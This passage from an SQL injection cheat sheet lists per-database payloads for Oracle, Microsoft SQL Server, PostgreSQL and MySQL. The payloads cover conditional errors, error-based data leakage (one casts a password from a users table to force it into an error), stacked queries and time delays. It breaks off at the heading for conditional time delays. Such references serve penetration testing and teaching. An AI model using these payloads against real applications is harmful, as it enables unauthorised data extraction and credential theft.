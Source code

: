 ## Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

<table><tbody><tr><th>Oracle</th><td><code>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual</code></td></tr><tr><th>Microsoft</th><td><code>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END</code></td></tr><tr><th>PostgreSQL</th><td><code>1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)</code></td></tr><tr><th>MySQL</th><td><code>SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')</code></td></tr></tbody></table>

You can potentially elicit error messages that leak sensitive data returned by your malicious query.

<table><tbody><tr><th>Microsoft</th><td><code>SELECT 'foo' WHERE 1 = (SELECT 'secret')<p>&gt; Conversion failed when converting the varchar value 'secret' to data type int.</p></code></td></tr><tr><th>PostgreSQL</th><td><code>SELECT CAST((SELECT password FROM users LIMIT 1) AS int)<p>&gt; invalid input syntax for integer: "secret"</p></code></td></tr><tr><th>MySQL</th><td><code>SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))<p>&gt; XPATH syntax error: '\secret'</p></code></td></tr></tbody></table>

## Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

<table><tbody><tr><th>Oracle</th><td><code>Does not support batched queries.</code></td></tr><tr><th>Microsoft</th><td><code>QUERY-1-HERE; QUERY-2-HERE<br>QUERY-1-HERE QUERY-2-HERE</code></td></tr><tr><th>PostgreSQL</th><td><code>QUERY-1-HERE; QUERY-2-HERE</code></td></tr><tr><th>MySQL</th><td><code>QUERY-1-HERE; QUERY-2-HERE</code></td></tr></tbody></table>

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

<table><tbody><tr><th>Oracle</th><td><code>dbms_pipe.receive_message(('a'),10)</code></td></tr><tr><th>Microsoft</th><td><code>WAITFOR DELAY '0:0:10'</code></td></tr><tr><th>PostgreSQL</th><td><code>SELECT pg_sleep(10)</code></td></tr><tr><th>MySQL</th><td><code>SELECT SLEEP(10)</code></td></tr></tbody></table>

## Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

